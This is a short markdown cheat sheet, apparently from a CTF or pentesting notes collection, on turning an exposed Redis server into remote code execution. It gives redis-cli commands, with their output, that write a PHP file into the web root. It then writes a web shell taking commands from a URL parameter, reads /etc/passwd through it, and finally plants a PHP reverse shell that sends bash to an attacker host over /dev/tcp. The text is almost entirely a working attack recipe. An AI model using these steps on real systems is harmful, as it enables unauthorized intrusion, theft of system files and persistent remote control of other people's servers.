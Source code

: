# How to deal with a Redis database?
- Download redis-tools: `sudo apt install redis-tools`
- Use the following command to gather info: `info`
- Introduce a php RCE: 

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redis.php
OK
10.10.60.159:6379> set test "<?php phpinfo(); ?>"
OK
10.10.60.159:6379> save
OK
````
- Now in Firefox, navigate to `<target-ip>/redis.php`
- If it is shown the phpinfo() file, the try to run this to get a shell:

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.60.159:6379> save
OK
````

- Now on the web-nav put something like this: `view-source:http://10.10.60.159/redisshell.php?cmd=%20cat%20/etc/passwd`
- Now set up a listener and create a simple reverse php shell:
````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/<attck-ip>/<port> 0>&1'\"); ?>"
OK
10.10.60.159:6379> save
OK
